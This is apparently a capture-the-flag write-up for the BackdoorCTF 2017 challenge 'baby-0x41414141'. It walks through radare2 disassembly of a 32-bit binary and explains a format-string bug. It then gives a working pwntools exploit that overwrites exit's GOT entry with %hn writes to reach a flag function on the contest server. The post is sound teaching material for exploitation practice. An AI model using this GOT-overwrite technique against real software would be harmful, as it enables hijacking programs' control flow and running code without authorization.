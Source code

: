 ```yaml
---
layout: post
title:  baby-0x41414141
date:   2017-09-27 21:35:05 +0100
author: 3553x
category: BackdoorCTF 2017
---
```

We download a file which is a 32bit ELF binary.

We take a look at it's main function using radare2.

```
/ (fcn) sym.main 214
|   sym.main ();
|           ; var int local_20ch @ ebp-0x20c
|           ; var int local_200h @ ebp-0x200
|           ; var int local_138h @ ebp-0x138
|           ; var int local_ch @ ebp-0xc
|           ; var int local_4h @ esp+0x4
|              ; DATA XREF from 0x08048627 (entry0)
|           0x08048724      8d4c2404       lea ecx, [local_4h]         ; eflags
|           0x08048728      83e4f0         and esp, 0xfffffff0
|           0x0804872b      ff71fc         push dword [ecx - 4]
|           0x0804872e      55             push ebp
|           0x0804872f      89e5           mov ebp, esp
|           0x08048731      51             push ecx
|           0x08048732      81ec14020000   sub esp, 0x214
|           0x08048738      89c8           mov eax, ecx
|           0x0804873a      8b4004         mov eax, dword [eax + 4]    ; eflags ; [0x4:4]=0x10101
|           0x0804873d      8985f4fdffff   mov dword [local_20ch], eax
|           0x08048743      65a114000000   mov eax, dword gs:[0x14]    ; [0x14:4]=1
|           0x08048749      8945f4         mov dword [local_ch], eax
|           0x0804874c      31c0           xor eax, eax
|           0x0804874e      83ec0c         sub esp, 0xc
|           0x08048751      68f0880408     push str.Hello_baby_pwner__whats_your_name_ ; 0x80488f0 ; "Hello baby pwner, whats your name?" ; const char * s
|           0x08048756      e885feffff     call sym.imp.puts           ; int puts(const char *s)
|           0x0804875b      83c410         add esp, 0x10
|           0x0804875e      a144a00408     mov eax, dword obj.stdout   ; [0x804a044:4]=0x62552820 ; " (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
|           0x08048763      83ec0c         sub esp, 0xc
|           0x08048766      50             push eax                    ; FILE *stream
|           0x08048767      e854feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|           0x0804876c      83c410         add esp, 0x10
|           0x0804876f      a140a00408     mov eax, dword obj.stdin    ; loc.stdin ; [0x804a040:4]=0x3a434347 ; "GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
|           0x08048774      bac8000000     mov edx, 0xc8
|           0x08048779      83ec04         sub esp, 4
|           0x0804877c      50             push eax
|           0x0804877d      52             push edx
|           0x0804877e      8d8500feffff   lea eax, [local_200h]
|           0x08048784      50             push eax                    ; char *s
|           0x08048785      e806feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x0804878a      83c410         add esp, 0x10
|           0x0804878d      a140a00408     mov eax, dword obj.stdin    ; loc.stdin ; [0x804a040:4]=0x3a434347 ; "GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
|           0x08048792      83ec0c         sub esp, 0xc
|           0x08048795      50             push eax                    ; FILE *stream
|           0x08048796      e825feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|           0x0804879b      83c410         add esp, 0x10
|           0x0804879e      83ec04         sub esp, 4
|           0x080487a1      8d8500feffff   lea eax, [local_200h]
|           0x080487a7      50             push eax
|           0x080487a8      6814890408     push str.Ok_cool__soon_we_will_know_whether_you_pwned_it_or_not._Till_then_Bye__s ; 0x8048914 ; "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s"
|           0x080487ad      8d85c8feffff   lea eax, [local_138h]
|           0x080487b3      50             push eax                    ; char *s
|           0x080487b4      e897fdffff     call sym.imp.sprintf        ; int sprintf(char *s,
|           0x080487b9      83c410         add esp, 0x10
|           0x080487bc      a144a00408     mov eax, dword obj.stdout   ; [0x804a044:4]=0x62552820 ; " (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
|           0x080487c1      83ec0c         sub esp, 0xc
|           0x080487c4      50             push eax                    ; FILE *stream
|           0x080487c5      e8f6fdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|           0x080487ca      83c410         add esp, 0x10
|           0x080487cd      83ec0c         sub esp, 0xc
|           0x080487d0      8d85c8feffff   lea eax, [local_138h]
|           0x080487d6      50             push eax                    ; const char * format
|           0x080487d7      e8f4fdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x080487dc      83c410         add esp, 0x10
|           0x080487df      a144a00408     mov eax, dword obj.stdout   ; [0x804a044:4]=0x62552820 ; " (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
|           0x080487e4      83ec0c         sub esp, 0xc
|           0x080487e7      50             push eax                    ; FILE *stream
|           0x080487e8      e8d3fdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|           0x080487ed      83c410         add esp, 0x10
|           0x080487f0      83ec0c         sub esp, 0xc
|           0x080487f3      6a01           push 1                      ; int status
\           0x080487f5      e8f6fdffff     call sym.imp.exit           ; void exit(int status)
```

A fairly simple program that's vulnerable to a format string attack.

But we can't overflow any buffers and there don't appear to be any interesting variables on the stack. Overwriting the return address doesn't make much sense since `main` calls `exit`. So what do we do?

We mess with the plt table!

Let's look at `exit@plt` using `objdump`:
```
080485f0 <exit@plt>:
 80485f0:       ff 25 34 a0 04 08       jmp    *0x804a034
 80485f6:       68 50 00 00 00          push   $0x50
 80485fb:       e9 40 ff ff ff          jmp    8048540 <.plt>
```

We can see that the process jumps to whatever address is stored at `0x804a034` when `exit` is called. We can abuse this to modify the flow of execution.

By skimming a bit through the output of objdump, we can actually find a function that outputs the flag:
```
0804870b <_Z4flagv>:
 804870b:       55                      push   %ebp
 804870c:       89 e5                   mov    %esp,%ebp
 804870e:       83 ec 08                sub    $0x8,%esp
 8048711:       83 ec 0c                sub    $0xc,%esp
 8048714:       68 e0 88 04 08          push   $0x80488e0
 8048719:       e8 52 fe ff ff          call   8048570 <system@plt>
 804871e:       83 c4 10                add    $0x10,%esp
 8048721:       90                      nop
 8048722:       c9                      leave
 8048723:       c3                      ret
 ```
 
All we need to do is to redirect the execution to that function and we solved the challenge.

We can achieve this by pushing the address of the jump location(`0x804a034`) on the stack by passing it as part of an argument to `sprintf`. We then make sure that `sprintf` prints `0804870b` characters, before encountering `%n` in the passed string.

The desired jump location is a fairly big number, so we actually split it up into two writes in our exploit by using `%hn` and passing two addresses in the string.

We determined the right "parameter number" by using the following small shellscript:
```
#!/bin/bash

for i in `seq 1 100`;
do
        echo $i
        ./32_new <<< "AAAA%$i\$p"
        done
```
All you need to do is to watch for `0x41414141` in the output.

And ended up with this solution:

```
#!/usr/bin/python3
from pwn import *

target =  remote('163.172.176.29', 9035)

payload = bytearray.fromhex("0804a034")[::-1]
payload += bytearray.fromhex("0804a036")[::-1]

payload = bytes(payload)

padding1 = 0x870b
padding2 = 0x0804

# sprintf already prints 70 characters
payload2 = "%" + str(padding2 - 78) + "x"
payload2 += "%11$hn"
payload2 += "%" + str(padding1 - (padding2)) + "x"
payload2 += "%10$hn"

payload+= bytes(payload2, "ascii")

print((payload))
print(target.recvline())
target.sendline(payload)
print(target.recvline())
print(target.recvline())
target.close()
```

That's it!
